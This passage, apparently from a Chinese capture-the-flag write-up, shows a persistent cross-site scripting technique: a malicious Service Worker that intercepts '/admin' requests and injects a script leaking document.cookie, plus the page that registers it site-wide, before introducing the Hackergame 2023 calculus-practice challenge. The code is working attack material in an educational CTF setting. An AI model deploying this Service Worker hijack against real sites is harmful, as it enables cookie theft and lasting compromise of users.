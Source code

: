 因此采取网络请求和缓存的方式，我们可以创建一个 hack 页面，在这个页面里面，设置监听，返回对 ```/admin``` 的访问信息
如果需要设置 Service Worker 允许跨路径的话，请求头要加上 ```"Service-Worker-Allowed":"/"```

```json
{"Content-Type": "application/javascript","Service-Worker-Allowed":"/"}
```

```js
this.addEventListener('fetch', function (event) {
  var url = event.request.url;
  if (url.includes('admin')) {
    event.respondWith(
      new Response('<script>setInterval(function() { document.title = document.cookie; }, 500);</script>', {
        headers: {'Content-Type': 'text/html'}
      })
    );
  }
});
```

再创建一个 hack2 页面，在这个页面注册 Service Worker，实现持久的 xss 攻击
```json
{"Content-Type": "text/html"}
```

```js
<script>
const registerServiceWorker = async () => {
  if ("serviceWorker" in navigator) {
    try {
      const registration = await navigator.serviceWorker.register("/hack/", {
        scope: "/",
      });
      if (registration.installing) {
        console.log("Service worker installing");
      } else if (registration.waiting) {
        console.log("Service worker installed");
      } else if (registration.active) {
        console.log("Service worker active");
      }
    } catch (error) {
      console.error(`Registration failed with ${error}`);
    }
  }
};
registerServiceWorker();
</script>
```

## Hackergame 2023 的 微积分计算小练习 2.0

给出的 bot 模拟了这样一个过程：你可以提交一段 HTML 代码，bot 会在本地启动一个 HTTP 服务器，然后 bot 会访问上面的练习网站，登录后在 cookie 中加入 JavaScript 可以访问到的经过 URL encode 之后的 flag，然后访问你的站点。Bot 不会输出任何网页内容。
题目环境不与互联网连接
